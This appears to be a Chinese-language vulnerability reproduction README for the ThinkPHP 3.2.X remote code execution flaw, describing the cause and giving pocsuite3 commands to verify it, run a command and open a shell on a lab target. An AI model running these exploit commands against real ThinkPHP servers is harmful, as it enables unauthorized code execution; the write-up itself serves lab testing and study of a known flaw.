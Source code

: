 # ThinkPHP 3.2.X RCE远程代码执行漏洞

## 漏洞介绍

  ThinkPHP 框架 - 是由上海顶想公司开发维护的 MVC 结构的开源 PHP 框架，遵循 Apache2 开源协议发布，是为了敏捷 WEB 应⽤开发和简化企业应⽤开发⽽诞⽣的。

  2021 年 7 ⽉ 12 ⽇，⽹络上披露针对 ThinkPHP 3.2.X 的远程代码执⾏漏洞利⽤详情， 因业务代码中如果模板赋值⽅法 assign 的第⼀个参数可控，则可导致模板⽂件路径变量被 覆盖为携带攻击代码的⽂件路径，造成任意⽂件包含，执⾏任意代码。 

## 漏洞影响版本

- ThinkPHP 3.2.X

## 漏洞环境

- 操作系统：Linux
- IP地址：10.11.34.64
- ThinkPHP 3.2.3完整版

## 漏洞复现

开启靶机后访问 http:// 10.11.34.64/thinkphp/，此处使用pocsuite3脚本验证。

## 验证模式

```bash
pocsuite -r pocs/ThinkPHP_3_2_x_rce.py -u http:// 10.11.34.64/thinkphp/ --verify
```

![image](https://user-images.githubusercontent.com/37897216/233998663-681f0248-2522-4910-ba04-b5cb1029b222.png)


## 攻击模式

Linux与Windows平台均兼容，注意不同平台执行命令即可。

```bash
pocsuite -r pocs/ThinkPHP_3_2_x_rce.py -u http:// 10.11.34.64/thinkphp/ --attack –cmd ls
```

![image](https://user-images.githubusercontent.com/37897216/233998710-c3b1710d-5e66-42f2-bf12-806a4c2901a9.png)


## Shell模式

```bash
python3 cli.py -r pocs/ThinkPHP_3_2_x_rce.py  -u http://127.0.0.1:8082/thinkphp/ --shell 
```

![image](https://user-images.githubusercontent.com/37897216/233998760-e765acb8-6d41-447e-baf9-1c639f202c1c.png)


**参考链接: https://www.seebug.org/vuldb/ssvid-99297**
